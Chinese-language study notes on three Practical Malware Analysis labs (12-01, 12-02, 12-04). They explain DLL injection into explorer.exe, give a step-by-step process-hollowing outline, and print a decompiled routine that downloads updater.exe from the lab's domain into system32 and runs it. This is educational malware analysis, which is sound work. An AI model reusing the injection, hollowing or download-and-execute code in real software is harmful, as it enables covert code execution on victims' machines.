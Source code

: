 # Lab12-01
strings.exe查看 发现有个很有趣的地方 exe出现了`explorer.exe` dll 出现了 `Press OK to reboot` 以及 `Practical Malware Analysis %d`

## createRemoteThread
创建在另一个进程的虚拟地址空间中运行的线程
![image](https://img2023.cnblogs.com/blog/3092507/202312/3092507-20231201180346641-1290734425.png)


通过CreateRemoteThread在远程进程中创建一个新的线程 通过参数lab12-01.dll来调用LoadLibraryA
典型的dll注入！将lab12-01.dll注入到了explorer.exe中

# Lab12-02

```c
返回指向资源信息的块
HRSRC FindResourceA(
  HMODULE hModule,
  LPCSTR  lpName,//资源名字
  LPCSTR  lpType//资源类型
);
得到和资源联系的句柄
HGLOBAL LoadResource(
  HMODULE hModule,
  HRSRC   hResInfo
);
返回资源的第一个字节地址
LPVOID LockResource(
  HGLOBAL hResData
);
创建进程
BOOL CreateProcessA(
  LPCSTR                lpApplicationName,
  LPSTR                 lpCommandLine,
  LPSECURITY_ATTRIBUTES lpProcessAttributes,
  LPSECURITY_ATTRIBUTES lpThreadAttributes,
  BOOL                  bInheritHandles,
  DWORD                 dwCreationFlags,
  LPVOID                lpEnvironment,
  LPCSTR                lpCurrentDirectory,
  LPSTARTUPINFOA        lpStartupInfo,
  LPPROCESS_INFORMATION lpProcessInformation
);
创建进程的信息结构体
typedef struct _PROCESS_INFORMATION {
  HANDLE hProcess;//进程句柄
  HANDLE hThread;//线程句柄
  DWORD  dwProcessId;//PID
  DWORD  dwThreadId;//TID
} PROCESS_INFORMATION, *PPROCESS_INFORMATION, *LPPROCESS_INFORMATION;
获得线程信息
BOOL GetThreadContext(
  HANDLE    hThread,
  LPCONTEXT lpContext//比较复杂的结构体 包含当前线程的所有寄存器信息
);
读取进程数据
BOOL ReadProcessMemory(
  HANDLE  hProcess,//进程句柄
  LPCVOID lpBaseAddress,//要读的地址
  LPVOID  lpBuffer,//保存内容地址
  SIZE_T  nSize,//大小
  SIZE_T  *lpNumberOfBytesRead
);
写进程数据
BOOL WriteProcessMemory(
  HANDLE  hProcess,
  LPVOID  lpBaseAddress,
  LPCVOID lpBuffer,
  SIZE_T  nSize,
  SIZE_T  *lpNumberOfBytesWritten
);
unmaps进程一块内存
NTSYSAPI NTSTATUS ZwUnmapViewOfSection(
  HANDLE ProcessHandle,
  PVOID  BaseAddress
);
找到ClassName的窗体
HWND FindWindowA(
  LPCSTR lpClassName,
  LPCSTR lpWindowName//如果为0，表示搜索所有
);
HHOOK SetWindowsHookExA(
  int       idHook,
  HOOKPROC  lpfn,
  HINSTANCE hmod,
  DWORD     dwThreadId
);
```

进程替换流程
```c++
1.用挂起的方式执行进程
2.ZwUnmapViewOfSection释放指向的内存，解除内存映射
3.VirtualAlloc为恶意代码分配新的内存
4.循环将恶意代码的每个段写入受害者进程的内存空间
5.恢复受害者进程的环境，SetThreadContext函数
6.ResumeThread函数恢复执行。
```

# Lab12-04
psapi.dll: 进程状态API提供用于检索以下信息的函数集
- 进程信息
- 模块信息
- 设备驱动程序信息
- 进程内存使用情况信息
- 工作集信息
- 内存映射文件信息

winlogon: Windows操作系统的一部分 提供交互式登录支持
该模型由三个部分组成
- Winlogon可执行文件
- 图形标识和身份认证DLL - GINA
- 任意数量的网络提供程序

movefile修改后 调用自身resource内的bin#101来调用winup(修改了)
(所以说 strings.exe是个好工具 IDA根本查看不到内部resource的)
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  CHAR v4[272]; // [esp+8h] [ebp-440h] BYREF
  CHAR v5[272]; // [esp+118h] [ebp-330h] BYREF
  CHAR Buffer[272]; // [esp+228h] [ebp-220h] BYREF
  CHAR CmdLine[272]; // [esp+338h] [ebp-110h] BYREF

  memset(Buffer, 0, 270);
  memset(CmdLine, 0, 270);
  memset(v5, 0, 270);
  memset(v4, 0, 270);
  GetTempPathA(0x10Eu, Buffer);
  snprintf(CmdLine, 0x10Eu, "%s%s", Buffer, aWinupExe);
  WinExec(CmdLine, 5u);
  GetWindowsDirectoryA(v5, 0x10Eu);
  snprintf(v4, 0x10Eu, "%s%s", v5, aSystem32Wupdmg);
  if ( !URLDownloadToFileA(0, aHttpWwwPractic, v4, 0, 0) )
    WinExec(v4, 0);
  return 0;
}
```

这里可以看到会访问http://www.practicalmalwareanalysis.com/updater.exe 后下载一个文件
写入v4(\system32\wupdmgrd.exe路径)并执行
本来还想下载下了看看的 貌似这网站现在已经挂了
这种思路挺巧妙的woc
